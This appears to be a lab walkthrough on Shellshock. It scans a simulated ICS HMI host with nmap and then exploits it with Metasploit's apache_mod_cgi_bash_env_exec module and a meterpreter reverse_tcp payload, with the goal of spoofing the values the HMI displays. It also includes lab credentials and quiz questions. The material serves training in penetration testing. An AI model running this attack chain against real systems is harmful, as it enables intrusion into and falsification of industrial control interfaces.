 Shellshock, a critical vulnerability, targeted Unix-based systems through the popular Bash shell. It arose from mishandled environment variables, letting attackers inject malicious code for unauthorized access. This flaw risked extensive harm, from data breaches to full OS control. Rapid spread prompted quick patches by OS vendors, stressing proactive security and timely updates to prevent emerging risks.

Shellshock's impact was significant, exposing organizations and users to cyberattacks. Malicious actors exploited the vulnerability, causing financial losses, breaches, and reputational harm. The cybersecurity community responded with patches and strategies. OS vendors played a key role by releasing timely updates, and stressing their applications. Best practices emerged, like limiting Bash use and enhancing security. The incident highlighted the need for vigilant security to counter OS-level threats.
# Target Configuration

The Human-Machine Interface (HMI) is a graphical system enabling human interaction with machines, common in industrial and control settings. This system visually represents data and controls, and facilitates information exchange between operators and the monitored systems.

An HMI interface present within the Target machine will be exploited later on, allowing the display of a fabricated value instead of the genuine data.

Prior preparation is essential before taking the next step.

To disable the SNMP server, follow these steps on the simulated system that has its own SNMP server running.
`sudo service snmpd stop`

Next, initiate the Apache Web server, running alongside the target HMI Web server. The Apache server contains a bash script that could be exploited if the operating system is vulnerable to Shellshock.
Start the Apache server using the following command:
`sudo service apache2 start`
# Shellshock check

Shellshock is a critical vulnerability in Unix-based systems, including the **Apache HTTP Server with CGI** enabled. This vulnerability allows attackers to execute malicious code through improper input handling in the Bash shell's environment variables. This can lead to unauthorized access and data breaches.

To assess the Target machine for the Shellshock vulnerability, initiate an nmap scan.
On the Student machine, open the terminal window and input the following command.

`nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/shockme.cgi 192.168.1.102 --unprivileged`

Utilizing the Nmap command, a scan is conducted on the Target to identify the Shellshock vulnerability, with a specific emphasis on the provided URI.

Upon the completion of the Nmap scan, the presence of the Shellshock vulnerability is confirmed and additional reference information about the vulnerability is provided.
# Starting Conpot

Conpot is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.
First, navigate back to the Target machine and log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:

`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Based on the output of conpot when u ran it, what port did IPMI start on? 
![[Pasted image 20250804183339.png]]
# Visiting the HMI page

Navigate to the Student machine and open a Firefox tab.
Utilize the provided link below to reach the HMI page.

http://192.168.1.102:8800

Later in the process, the system uptime will be manipulated to display an arbitrary value on the page.
### Starting Metasploit

The Metasploit framework is a powerful open-source tool used for penetration testing and exploiting vulnerabilities in computer systems. The framework provides a vast collection of exploits, payloads, and auxiliary modules, making it an essential resource for security professionals.

Initiate the Metasploit Framework by entering the provided command in the terminal.
`msfconsole`
# Metasploit Configuration

In the Metasploit console, execute the provided command to select the "apache mod_cgi Bash Environment Variable Code Injection" option.
`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

Set the RHOST variable to:
`set RHOSTS 192.168.1.102`

After performing a scan on the Target machine using the provided URI (/cgi-bin/shockme.cgi) to detect the shellshock vulnerability, the results revealed the vulnerability of the Target host. Proceed by configuring the TARGETURI variable to:
`set TARGETURI /cgi-bin/shockme.cgi`

Set the Payload variable to:
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Lastly, to confirm the changes made use the following command:
`show options`

What is the RPORT of the target? 80
The preparation for Shellshock exploitation is complete.

With the settings meeting the requirements, initiate the module by executing the following command:
`exploit`



